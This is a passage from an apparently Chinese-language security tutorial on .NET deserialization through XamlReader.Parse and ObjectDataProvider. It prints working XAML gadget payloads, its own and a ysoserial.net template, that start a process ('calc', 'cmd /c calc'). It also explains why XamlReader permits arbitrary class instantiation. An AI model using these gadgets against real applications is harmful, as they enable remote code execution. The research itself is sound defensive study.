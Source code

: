 ```csharp
            // XamlReader.Parse(payload);
        }
    }
}
```
输出结果如下
```xml
<ResourceDictionary
    xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation"
    xmlns:sd="clr-namespace:System.Diagnostics;assembly=System"
    xmlns:x="http://schemas.microsoft
.com/winfx/2006/xaml">
    <ObjectDataProvider MethodName="Start" x:Key="a">
        <ObjectDataProvider.ObjectInstance>
            <sd:Process>
                <sd:Process.StartInfo>
                    <sd:ProcessStartInfo Arguments="test" S
tandardErrorEncoding="{x:Null}" StandardOutputEncoding="{x:Null}" UserName="" Password="{x:Null}" Domain="" LoadUserProfile="False" FileName="calc" />
                </sd:Process.StartInfo>
            </sd:Process>
        </ObjectDataProvider.ObjectInstance>
    </ObjectDataProvider>
</ResourceDictionary>
```
这里和Ysoserial.net提供的payload有细微差异，放一下Yso的payload template
```xml
<ResourceDictionary 
                    xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation" 
                    xmlns:d="http://schemas.microsoft.com/winfx/2006/xaml" 
                    xmlns:b="clr-namespace:System;assembly=mscorlib" 
                    xmlns:c="clr-namespace:System.Diagnostics;assembly=system">
    <ObjectDataProvider d:Key="" ObjectType="{d:Type c:Process}" MethodName="Start">
        <ObjectDataProvider.MethodParameters>
            <b:String>cmd</b:String>
            <b:String>/c calc</b:String>
        </ObjectDataProvider.MethodParameters>
    </ObjectDataProvider>
</ResourceDictionary>
```
可以看出似乎更加简短。
```
psi.GetType().GetField("environmentVariables", BindingFlags.Instance | BindingFlags.NonPublic).SetValue(psi, dict);
```
这一段是为了去除多余的环境变量，防止payload冗杂。
对于xaml语法的解释，笔者就不过多阐述，毕竟这东西和主题偏差太多。总而言之，XamlReader.Parse会解析xaml文件内容，并且在解析过程中没有任何限制，任何类都可以被还原，也没有对实现Serrializable的要求，因此这里面有很大的利用空间。

# 03-ObjectDataProvider
这东西在上一篇文章以及说过了它的用法，但是我们仍然留有部分问题待解决。我们可以看下面这样的Demo
```csharp
using System;
using System.Collections.Specialized;
using System.Diagnostics;
using System.IO;
using System.Reflection;
using System.Text;
using System.Windows;
using System.Windows.Data;
using System.Windows.Markup;
using System.Xml.Serialization;
namespace XmlDeserialize
```
